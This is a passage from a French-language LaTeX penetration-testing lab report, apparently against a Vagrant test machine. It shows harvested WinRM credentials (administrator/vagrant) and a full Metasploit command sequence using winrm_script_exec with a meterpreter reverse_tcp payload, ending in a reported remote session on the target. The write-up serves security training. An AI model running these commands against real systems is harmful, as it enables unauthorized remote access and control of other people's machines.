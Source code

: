 \documentclass[a4paper]{article}
\begin{document}
\begin{enumerate}
\begin{example}
\begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
service          public         private  realm        private_type
-------          ------         -------  -----        ------------
5985/tcp (http)  administrator  vagrant  WORKSTATION  Password
\end{Verbatim}
        \end{example}
        \textbf{Note}: certaines informations ont été enlevées pour que tout rentre dans la largeur de la page.
    \end{example}
    \item Maintenant que j'ai ces informations, je peux lancer l'exploit.
    \begin{example}
        Commande utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize use exploit/windows/winrm/winrm\_script\_exec}
            \item \texttt{\footnotesize set USERNAME administrator}
            \item \texttt{\footnotesize set PASSWORD vagrant}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set LHOST 192.168.1.3}
            \item \texttt{\footnotesize set FORCE\_VBS true}
            \item \texttt{\footnotesize show targets}
            \item \texttt{\footnotesize set TARGET 0}
            \item \texttt{\footnotesize set payload windows/meterpreter/reverse\_tcp}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Le résultat est un \textcolor{blue}{\textbf{succès}}, j'ai accès à une session meterpreter sur la machine cible (figure \ref{fig:SuccessWinRM}).
    \end{example}
    \begin{figure}[H]
        \centering
        \includegraphics[width=0.95\linewidth]{images/success-winrm-windows.PNG}
        \caption{Succès du gain d'accès avec WinRM sans Powershell}

\end{figure}
\end{enumerate}
\end{document}
